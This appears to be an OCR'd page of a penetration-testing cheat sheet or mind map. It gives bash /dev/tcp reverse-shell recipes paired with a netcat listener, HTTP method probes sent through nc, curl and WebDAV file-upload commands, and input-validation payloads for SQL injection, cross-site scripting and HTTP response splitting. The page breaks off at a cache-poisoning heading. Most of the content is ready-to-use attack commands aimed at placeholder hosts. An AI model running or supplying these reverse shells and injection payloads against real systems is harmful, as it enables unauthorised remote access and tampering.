                     GnuCitizen
                        Atttack Box: nc -l -p Port -vvv

                        Victim: $ exec 5<>/dev/tcp/IP_Address/Port

                        Victim: $ cat <&5 | while read line; do $line 2>&5 >&5; done
                    Neohapsis
                        Atttack Box: nc -l -p Port -vvv

                        Victim: $ exec 0</dev/tcp/IP_Address/Port # First we copy our connection over stdin

                        Victim: $ exec 1>&0 # Next we copy stdin to stdout

                        Victim: $ exec 2>&0 # And finally stdin to stderr

                        Victim: $ exec /bin/sh 0</dev/tcp/IP_Address/Port 1>&0 2>&0
            Method Testing
                nc IP_Adress Port
                    HEAD / HTTP/1.0
                    OPTIONS / HTTP/1.0
                    PROPFIND / HTTP/1.0
                    TRACE / HTTP/1.1
                    PUT http://Target_URL/FILE_NAME
                    POST http://Target_URL/FILE_NAME HTTP/1.x
            Upload Files
                curl
                    curl -u <username:password> -T file_to_upload <Target_URL>
                    curl -A "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" <Target_URL>
                put.pl
                    put.pl -h target -r /remote_file_name -f local_file_name
                webdav
                    cadaver
            View Page Source
                Hidden Values
                Developer Remarks
                Extraneous Code
                Passwords!
            Input Validation Checks
                NULL or null
                    Possible error messages returned.
                ' , " , ; , <!
                    Breaks an SQL string or query; used for SQL, XPath and XML Injection tests.
                – , = , + , "
                    Used to craft SQL Injection queries.
                ‘ , &, ! , ¦ , < , >
                    Used to find command execution vulnerabilities.
                "><script>alert(1)</script>
                    Basic Cross-Site Scripting Checks.
                %0d%0a
                    Carriage Return (%0d) Line Feed (%0a)
                        HTTP Splitting

                            language=?foobar%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2047%0d%0a%0d%0a<html>Insert undesireable content here</html>
                                i.e. Content-Length= 0 HTTP/1.1 200 OK Content-Type=text/html Content-Length=47<html>blah</html>
                        Cache Poisoning
